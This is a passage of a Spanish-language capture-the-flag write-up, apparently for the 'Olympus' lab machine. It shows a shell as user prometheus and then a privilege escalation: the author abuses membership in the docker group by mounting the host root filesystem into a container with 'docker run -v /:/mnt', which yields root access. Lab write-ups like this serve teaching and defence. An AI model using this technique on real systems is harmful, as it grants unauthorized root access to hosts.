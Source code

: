 ```bash

Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$ whoami
prometheus
prometheus@olympus:~$
```

Ahora si ya nos encontramos dentro de la máquina como el usuario *prometheus* y podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, así que enumeramos un poco el sistema:

```bash
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```

Vemos que nos encontramos dentro del grupo **docker**, así que podemos crear un contenedor montando la raiz `/`:

```bash
prometheus@olympus:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        3 years ago         450MB
olympia             latest              2b8904180780        3 years ago         209MB
rodhes              latest              82fbfd61b8c1        3 years ago         215MB
prometheus@olympus:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES
f00ba96171c5        crete               "docker-php-entrypoi…"   3 years ago         Up 5 hours          0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   3 years ago         Up 5 hours          0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3        olympia             "/usr/sbin/sshd -D"      3 years ago         Up 5 hours          0.0.0.0:2222->22/tcp                     olympia
prometheus@olympus:~$ docker run --rm -it -v /:/mnt rodhes bash
cat: /etc/hostip: No such file or directory
root@f51b8f68f6ab:/# cd /mnt
root@f51b8f68f6ab:/mnt# ls -l
total 76
drwxr-xr-x   2 root root  4096 Apr 15  2018 bin
drwxr-xr-x   3 root root  4096 Apr 15  2018 boot
drwxr-xr-x  17 root root  3080 Sep 19 01:03 dev
drwxr-xr-x  85 root root  4096 Apr 15  2018 etc
drwxr-xr-x   3 root root  4096 Apr  4  2018 home
lrwxrwxrwx   1 root root    29 Apr  2  2018 initrd.img -> boot/initrd.img-4.9.0-6-amd64
lrwxrwxrwx   1 root root    29 Apr  2  2018 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
drwxr-xr-x  16 root root  4096 Apr  2  2018 lib
drwxr-xr-x   2 root root  4096 Apr  2  2018 lib64
drwx------   2 root root 16384 Apr  2  2018 lost+found
drwxr-xr-x   3 root root  4096 Apr  2  2018 media
drwxr-xr-x   2 root root  4096 Apr  2  2018 mnt
drwxr-xr-x   2 root root  4096 Apr  2  2018 opt
dr-xr-xr-x 171 root root     0 Sep 19 01:03 proc
drwx------   4 root root  4096 Apr 15  2018 root
drwxr-xr-x  17 root root   600 Sep 19 05:32 run
drwxr-xr-x   2 root root  4096 Apr 15  2018 sbin
```